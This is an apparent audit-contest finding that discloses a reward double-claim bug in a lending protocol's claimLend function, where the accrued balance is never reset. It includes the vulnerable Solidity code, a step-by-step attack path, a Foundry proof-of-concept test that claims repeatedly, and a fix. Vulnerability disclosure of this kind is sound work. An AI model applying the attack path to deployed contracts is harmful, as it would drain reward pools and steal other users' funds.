 Creamy Sage Caterpillar

High

# Multi-Claims Due to Missing Accrued Reset in claimLend

### Summary

The claimLend function allows users to claim their accrued LEND rewards. However, after transferring the accrued LEND tokens to the user, the contract does not reset or update the user's accrued balance in lendStorage.lendAccrued. This enables users to repeatedly call claimLend and receive the same rewards multiple times.



### Root Cause

In CoreRouter, the claimLend and grantLendInternal functions do not reset or update the user's accrued LEND rewards in storage after a successful claim. The failure to reset or update the user's accrued LEND rewards after a claim will cause an unlimited reward drain for the protocol as a malicious user will repeatedly claim the same LEND rewards, depleting the reward pool and stealing from other users.


```solidity
 function claimLend(address[] memory holders, LToken[] memory lTokens, bool borrowers, bool suppliers) external {
        LendtrollerInterfaceV2(lendtroller).claimLend(address(this));

        ...
        for (uint256 j = 0; j < holders.length;) {
            uint256 accrued = lendStorage.lendAccrued(holders[j]);
            if (accrued > 0) {
                grantLendInternal(holders[j], accrued);
            }
            unchecked {
                ++j;
            }
        }
    }

    function grantLendInternal(address user, uint256 amount) internal returns (uint256) {
        address lendAddress = LendtrollerInterfaceV2(lendtroller).getLendAddress();
        uint256 lendBalance = IERC20(lendAddress).balanceOf(address(this));

        if (amount > 0 && amount <= lendBalance) {
            IERC20(lendAddress).safeTransfer(user, amount);
            return 0;
        }
        return amount;
    }
```

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/713372a1ccd8090ead836ca6b1acf92e97de4679/Lend-V2/src/LayerZero/CoreRouter.sol#L400

### Internal Pre-conditions

The function grantLendInternal transfers LEND tokens to the user but does not update or reset the user's accrued rewards in storage.
There is no mechanism in claimLend or grantLendInternal to set the user's accrued LEND to zero after a successful claim.


### External Pre-conditions

-

### Attack Path

1. A user accrues LEND rewards through protocol activity.
2. The user calls claimLend and receives their accrued LEND tokens.
3. Because lendStorage.lendAccrued is not reset, the user can call claimLend again and receive the same rewards repeatedly.
4. The attacker can continue this process, draining the contract's LEND balance and stealing rewards that should belong to other users

### Impact

Attackers can drain the protocol's LEND reward pool, stealing rewards from other users.

### PoC

// Add test to :::    `Lend-V2/test/mocks/TestLendAccrual.t.sol`

```solidity
    function test_claim_multiple_times() public {
        // Supply tokens to start accruing LEND
        uint256 supplyAmount = 1000e18;
        (, address lToken) = _supply(supplyAmount, user1);
         _supply(4*supplyAmount, user2);

        // Get initial LEND accrued
        uint256 initialLendAccrued = lendStorage.lendAccrued(user1);

        address lendToken = lendtroller.getLendAddress();

        assertEq(IERC20(lendToken).balanceOf(user1),0 );

        // Advance time and blocks
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Trigger LEND distribution
        vm.prank(user1);
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);
        coreRouter.claimLend(holders, lTokenArray, false, true);

        assertEq(IERC20(lendToken).balanceOf(user1),20000000000000000 );

        uint256 finalLendAccrued = lendStorage.lendAccrued(user1);
        assertGt(finalLendAccrued, initialLendAccrued, "LEND should accrue over time");

        coreRouter.claimLend(holders, lTokenArray, false, true);
        assertEq(IERC20(lendToken).balanceOf(user1),40000000000000000 );

        coreRouter.claimLend(holders, lTokenArray, false, true);
        assertEq(IERC20(lendToken).balanceOf(user1),60000000000000000 );
    }

```

### Mitigation

After a successful transfer of LEND tokens, set the user's accrued rewards to zero in lendStorage